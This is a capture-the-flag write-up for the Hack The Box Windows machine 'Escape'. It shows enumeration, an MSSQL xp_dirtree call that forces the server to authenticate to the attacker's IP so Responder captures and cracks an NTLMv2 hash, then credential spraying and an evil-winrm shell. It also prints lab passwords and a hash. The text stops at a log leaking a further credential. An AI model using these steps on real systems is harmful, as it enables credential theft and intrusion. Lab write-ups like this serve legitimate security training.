


---
tags:
  - windows
---
# HTB: [Escape](https://app.hackthebox.com/machines/Escape)

> [!tip]- Spoiler Summary
> This Active Directory box centered around a misconfigured SQL Server. Initial enumeration revealed an accessible share containing a document that hinted at SQL Server credentials, allowing me to log in as `publicuser`. Using `xp_dirtree`, I captured the NTLMv2 hash for `sql_svc`, which cracked to reveal credentials reused for SMB and WinRM. Access as `sql_svc` exposed SQL Server logs that leaked another set of credentials, ultimately allowing escalation to retrieve the flag.

## Services

### TCP

- Target: `escape.htb 10.10.11.202`
- Command: `nmap -v --reason -Pn -T4 --min-rate 1000 -p- --open -sCV -oA nmap_tcp-10.10.11.202 10.10.11.202

#### 389/tcp-ldap `Microsoft Windows Active Directory LDAP` `(Domain: sequel.htb0., Site: Default-First-Site-Name)`

```text
__ssl-date:
2024-10-05T03:51:53+00:00; +7h59m59s from scanner time.
__ssl-cert:
Subject:
Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
Issuer: commonName=sequel-DC-CA
Public Key type: rsa
Public Key bits: 2048
Signature Algorithm: sha256WithRSAEncryption
Not valid before: 2024-01-18T23:03:57
Not valid after:  2074-01-05T23:03:57
MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
```

#### 636/tcp-ldap `Microsoft Windows Active Directory LDAP` `(Domain: sequel.htb0., Site: Default-First-Site-Name)`

```text
__ssl-cert:
Subject:
Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
Issuer: commonName=sequel-DC-CA
Public Key type: rsa
Public Key bits: 2048
Signature Algorithm: sha256WithRSAEncryption
Not valid before: 2024-01-18T23:03:57
Not valid after:  2074-01-05T23:03:57
MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
__ssl-date:
2024-10-05T03:51:53+00:00; +8h00m00s from scanner time.
```

#### 1433/tcp-ms-sql-s `Microsoft SQL Server 2019` `15.00.2000.00; RTM`

```text
__ssl-date:
2024-10-05T03:51:53+00:00; +7h59m59s from scanner time.
__ms-sql-info:
  10.10.11.202:1433:
    Version:
      name: Microsoft SQL Server 2019 RTM
      number: 15.00.2000.00
      Product: Microsoft SQL Server 2019
      Service pack level: RTM
      Post-SP patches applied: false
    TCP port: 1433
__ms-sql-ntlm-info:
  10.10.11.202:1433:
    Target_Name: sequel
    NetBIOS_Domain_Name: sequel
    NetBIOS_Computer_Name: DC
    DNS_Domain_Name: sequel.htb
    DNS_Computer_Name: dc.sequel.htb
    DNS_Tree_Name: sequel.htb
    Product_Version: 10.0.17763
__ssl-cert:
Subject: commonName=SSL_Self_Signed_Fallback
Issuer: commonName=SSL_Self_Signed_Fallback
Public Key type: rsa
Public Key bits: 2048
Signature Algorithm: sha256WithRSAEncryption
Not valid before: 2024-10-05T03:47:13
Not valid after:  2054-10-05T03:47:13
MD5:   fc43:1be5:661a:7ccd:2940:897e:7339:24b8
SHA-1: ad7a:c235:6254:6548:242e:b0a4:7022:6f36:2db9:a51b
```

#### 3268/tcp-ldap `Microsoft Windows Active Directory LDAP` `(Domain: sequel.htb0., Site: Default-First-Site-Name)`

```text
__ssl-cert:
Subject:
Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
Issuer: commonName=sequel-DC-CA
Public Key type: rsa
Public Key bits: 2048
Signature Algorithm: sha256WithRSAEncryption
Not valid before: 2024-01-18T23:03:57
Not valid after:  2074-01-05T23:03:57
MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
__ssl-date:
2024-10-05T03:51:53+00:00; +7h59m59s from scanner time.
```

#### 3269/tcp-ldap `Microsoft Windows Active Directory LDAP` `(Domain: sequel.htb0., Site: Default-First-Site-Name)`

```text
__ssl-date:
2024-10-05T03:51:53+00:00; +8h00m00s from scanner time.
__ssl-cert:
Subject:
Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
Issuer: commonName=sequel-DC-CA
Public Key type: rsa
Public Key bits: 2048
Signature Algorithm: sha256WithRSAEncryption
Not valid before: 2024-01-18T23:03:57
Not valid after:  2074-01-05T23:03:57
MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
```

## Poking Around

```console
$ nxc smb 10.10.11.202 -u guest -p '' --shares
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\guest:
^ASMB         10.10.11.202    445    DC               [*] Enumerated shares
SMB         10.10.11.202    445    DC               Share           Permissions     Remark
SMB         10.10.11.202    445    DC               -----           -----------     ------
SMB         10.10.11.202    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.202    445    DC               C$                              Default share
SMB         10.10.11.202    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.202    445    DC               NETLOGON                        Logon server share
SMB         10.10.11.202    445    DC               Public          READ
SMB         10.10.11.202    445    DC               SYSVOL                          Logon server share
```

I use `spider_plus`, and recover one interesting file: `Public/SQL Server Procedures.pdf`





```sql
$ impacket-mssqlclient sequel.htb/publicuser:GuestUserCantWrite1@10.10.11.202
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (PublicUser  guest@master)>
```

```sql
SQL (PublicUser  guest@master)> enum_links
SRV_NAME     SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE   SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT
----------   ----------------   -----------   --------------   ------------------   ------------   -------
DC\SQLMOCK   SQLNCLI            SQL Server    DC\SQLMOCK       NULL                 NULL           NULL
```

Grabbed a hash for the service user via `responder`:

```sql
SQL (PublicUser  guest@master)> exec master.dbo.xp_dirtree '\\10.10.14.21\x'
subdirectory   depth
------------   -----
```

```console
[SMB] NTLMv2-SSP Client   : 10.10.11.202
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:37bda588570b9389:EF4ED2FF32BA4E01B62337DBA5A0221F:0101000000000000009483D16916DB019A91107F9D16E00E0000000002000800360045004B004F0001001E00570049004E002D00370057004E0055004F004200440046004E003100580004003400570049004E002D00370057004E0055004F004200440046004E00310058002E00360045004B004F002E004C004F00430041004C0003001400360045004B004F002E004C004F00430041004C0005001400360045004B004F002E004C004F00430041004C0007000800009483D16916DB0106000400020000000800300030000000000000000000000000300000A8660A3FB47829343C970A3AA1E144B016CCBE6674D65105FB74B223E7EBB18F0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320031000000000000000000
```

It cracks: `sql_svc:REGGIE1234ronnie`

It's reused for `sqlmock`:

```console
$ nxc smb 10.10.11.202 -u ./u.txt -p ./p.txt --continue-on-success
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [-] sequel.htb\brandon.brown:GuestUserCantWrite1 STATUS_LOGON_FAILURE
SMB         10.10.11.202    445    DC               [+] sequel.htb\publicuser:GuestUserCantWrite1
SMB         10.10.11.202    445    DC               [+] sequel.htb\sqlmock:GuestUserCantWrite1
SMB         10.10.11.202    445    DC               [-] sequel.htb\brandon.brown:REGGIE1234ronnie STATUS_LOGON_FAILURE
```

## Remote Code Execution

I originally thought I couldn't get a shell as `sql_svc`:

```console
$ evil-winrm -i 10.10.11.202 -u sequel.htb/sql_svc -p REGGIE1234ronnie
Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
^ rc=1
```

But it works if I don't specify the domain name:

```console
$ evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
...
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sql_svc\Documents>
```

I get Ryan's last name:

```powershell
*Evil-WinRM* PS C:\users> ls
    Directory: C:\users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/7/2023   8:58 AM                Administrator
d-r---        7/20/2021  12:23 PM                Public
d-----         2/1/2023   6:37 PM                Ryan.Cooper
d-----         2/7/2023   8:10 AM                sql_svc
```

## Privilege Escalation

There's a SQL Server log backup that leaks credentials:

```text
*Evil-WinRM* PS C:\SQLserver\Logs> cat ERRORLOG.BAK
2022-11-18 13:43:05.96 Server      Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)
        Sep 24 2019 13:48:23
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard Evaluation 10.0 <X64> (Build 17763: ) (Hypervisor)
...
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
...
```
